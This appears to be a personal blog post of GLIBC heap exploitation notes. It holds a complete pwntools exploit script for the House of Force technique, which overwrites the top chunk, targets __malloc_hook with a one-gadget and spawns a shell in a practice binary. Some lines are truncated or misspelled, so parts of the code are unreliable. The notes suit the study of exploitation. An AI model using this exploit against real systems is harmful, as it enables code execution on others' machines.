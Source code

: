 ```yaml
---
layout: post
title: GLIBC research notes
date: 2022-09-01
permalink: /:title/
description: "Notes on exploitation techniques in Gnu C Library"
tags: [linux]
share: true
comments: false
published: true
status: Ongoing
---
```


---
* toc
{:toc}
---

# Core ideas

- The essence of modern heap exploitation techniques is  
requesting fake chunk overlapping sensitive program data

- Tampering runtime metadata in a favourable way generally
requires multiple techniques to be chained together

- Tcache makes exploitation easier


# House of force

This is one of the simplest attacks, it involves overwriting the top chunk (or wilderness)
size field (its second quadword) with a 0xffffffffffffffff

```python
#!/usr/bin/python3
from pwn import *

elf = context.binary = elf("hall_of_fame")
libc = elf(elf.runpath + b"/libc.so.6")

gs = '''
continue
'''
def start():
    if args.gdb:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

def malloc(score, data):
    io.sendline(b"1")
    io.sendlineafter(b"> ", f"{score}")
    io.sendlineafter(b"> ", data)
    io.recvuntil(b"> ")

# the position of latest addition is at 0x603000
# the position of puts is at 0x7ffff7e48420
def view():
    io.sendline(b"2")

    io.recvline()

    heap_leak = io.recvline()
    puts_leak = io.recvline()

    io.recvutil(b"> ")

    heap = int(heap_leak[38:], 16)
    puts_addr = int(puts_leak[27:], 16)

    return heap, puts_addr

io = start()
io.recvuntil(b"> ")
io.timeout = 0.1

# ===

heap, puts_addr = view()
libc.address = puts_addr - libc.sym.puts

log.info(f"libc @ 0x{libc.address:02x}")
log.info(f"heap @ 0x{heap:02x}")

# ===

onegadget = libc.address + 0x10a2fc
top_chunk_size = 0xffffffffffffffff
size = 48
payload = b"b"*48 + p64(top_chunk_size)

# overflow into top chunk's size 
malloc(size, payload)
# leak the address that would be returned by malloc
latest_heap, _ = view()

log.info(f"latest heap chunk would be returned @ 0x{latest_heap:02x}")

# calculate how much memory is left to reach the end of virtual memory
# the minus -0x38 is necessary as i noticed inspecting the binary that my chunk was allocated at tha
delta = libc.sym.__malloc_hook - 0x10 - latest_heap - 0x38

log.info(f"delta between heap (0x{latest_heap:02x}) and __malloc_hook (0x{libc.sym.__malloc_hook:02x

# request a chunk to fill the space between heap and __malloc_hook
malloc(delta, b"")

# request a chunk overlapping __malloc_hook and overwrite it
malloc(32, p64(onegadget))
log.info("one gadget prepared")

# trigger __malloc_hook call
malloc(0, b"")

io.interactive()
```

# Unsortedbin attack



